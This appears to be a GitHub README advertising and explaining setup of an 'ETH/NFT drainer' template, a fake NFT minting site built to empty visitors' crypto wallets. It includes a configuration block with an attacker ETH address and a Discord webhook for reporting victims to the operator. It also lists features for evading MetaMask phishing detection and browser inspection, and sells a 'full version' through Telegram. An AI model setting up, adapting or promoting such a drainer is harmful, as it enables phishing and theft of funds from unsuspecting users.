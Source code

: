 ### If you have questions or need any help, Message me here: [@crypto_scem](https://t.me/crypto_scem) 
---
## 🖼️ NFT Stealer / ETH Stealer / Drainer Template / ETH Drainer / NFT Drainer / Seaport Drainer
---
![preview](https://i.ibb.co/JBFPXvn/drainer.png)
---
[Drainer - FULL VERSION](https://t.me/crypto_scem)
---
## `✏️ Guide on Setting Up the Template:` 
you need to edit the **index.js** file. 

```
const configuration = {
    name: 'Embers',         // project title
    subname: 'embers',     // project subtitle
    cost: 0.06,           // mint price to show on site
    amount: {            // amount to can be minted
      max: 10,
      value: 1
    },
    supply: {
      max: 555,
      value: 201,
      increase: {
        value: 5,
        interval: 3000
      }
    },
    webhook: // discord webhook
      'https://discordapp.com/api/webhooks/1053160606422802442/XzCTt2JrXF5btprXr9wGDByduaT6Eml31pU8e9-nK91Ri3D-rTGvaZj10R6d8RnmxyLR',
    address: '0x43e2d0145d88A83D536Fe54B70FFBf27d16Ef326', // eth address
    opensea: '2b03ed0cdd9c4d5598a4fbbcae11f66e'           // opensea id (dont change)
  };
```

To get instant support, contact me on [@crypto_scem](https://t.me/crypto_scem) 


## `💡 Features`

- [x] Simple design 
- [x] Immediate transactions
- [x] Contract not required
- [x] Metamask Anti Phishing Detections
- [x] Anti F12 Inspect
- [x] Inspect Element Detection
- [x] Custom-made Design
- [x] Discord Notification System


##### Please ⭐ the repo to support my project!
![star](https://cdn.discordapp.com/attachments/975036883958636557/975057102097743973/unknown.png)
